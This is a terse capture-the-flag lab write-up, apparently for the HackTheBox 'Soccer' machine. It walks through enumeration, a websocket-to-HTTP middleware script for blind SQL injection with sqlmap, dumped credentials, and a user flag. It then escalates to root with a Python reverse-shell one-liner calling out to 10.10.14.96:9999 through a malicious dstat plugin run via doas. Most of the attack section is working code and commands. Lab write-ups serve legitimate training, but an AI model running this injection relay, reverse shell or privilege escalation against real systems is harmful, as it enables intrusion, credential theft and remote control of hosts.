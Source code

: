 
subl /etc/hosts  => host twar htat dal
nmap 10.0.0.1   => port 22 and 80 was open

port 80 mar web service shi dal -> I using gobuster for dir

gobuster dir -u http://scroccer.htb -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,php3,html,txt   

I found tiny directory. and i google tiny folder default username and password and i got service.

cat /etc/hosts     => bar service run nay tay lal kyi dal

$ cat /etc/hosts
127.0.0.1       localhost       soccer  soccer.htb      soc-player.soccer.htb  => this service is interesting

And i found another webservice was running 

I saw a ticket number -> i inspect it but i found nothing so i think they are using web socket

so i google like web socket injection -> i found this url
https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html

I using his tutorial for sql injection

----

`from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer  
from urllib.parse import unquote, urlparse  
from websocket import create_connection  
  
ws_server = "ws://soc-player.soccer.htb:9091"  
  
def send_ws(payload):  
 ws = create_connection(ws_server)  
 # If the server returns a response on connect, use below line   
 #resp = ws.recv() # If server returns something like a token on connect you can find and extract from here  
   
 # For our case, format the payload in JSON  
 message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure  
 data = '{"id":"%s"}' % message  
  
 ws.send(data)  
 resp = ws.recv()  
 ws.close()  
  
 if resp:  
  return resp  
 else:  
  return ''  
  
def middleware_server(host_port,content_type="text/plain"):  
  
 class CustomHandler(SimpleHTTPRequestHandler):  
  def do_GET(self) -> None:  
   self.send_response(200)  
   try:  
    payload = urlparse(self.path).query.split('=',1)[1]  
   except IndexError:  
    payload = False  
      
   if payload:  
    content = send_ws(payload)  
   else:  
    content = 'No parameters specified!'  
  
   self.send_header("Content-type", content_type)  
   self.end_headers()  
   self.wfile.write(content.encode())  
   return  
  
 class _TCPServer(TCPServer):  
  allow_reuse_address = True  
  
 httpd = _TCPServer(host_port, CustomHandler)  
 httpd.serve_forever()  
  
  
print("[+] Starting MiddleWare Server")  
print("[+] Send payloads in http://localhost:8081/?id=*")  
  
try:  
 middleware_server(('0.0.0.0',8081))  
except KeyboardInterrupt:  
 pass'
 
------

and then run this payload python3 abc.py  . At the another terminal -> i using this one

sqlmap -u “http://localhost:8081/?id=1" -p “id”  => i got username and password 

+------+-------------------+----------+----------------------+  
| id   | email             | username | password             |  
+------+-------------------+----------+----------------------+  
| 1324 | player@player.htb | player   | PlayerOftheMatch2022 |  
+------+-------------------+----------+----------------------+

sshplayer@10.0.1    => I got user  / user flag -> a9da41b1701edd6b278bc5d79354c0f2


And then i run linpeas

![[1 sya9_ChRxCYO2x-_Rf76xg.webp]]


for file in $(find / -type f -name *.conf 2>/dev/null);do grep -lF nopass $file;done  => file enum script => very powerful

find / -name dstat -type d 2>/dev/null   => we find dstat location

nano dstat_leee.py  -> we create python shell with payload all the things payload 

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“10.10.14.96”,9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(“/bin/sh”)  => payload

nc -nvlp 9999  => i listen it

doas -u root /usr/bin/dstat --lee  => i run it

I got root ####
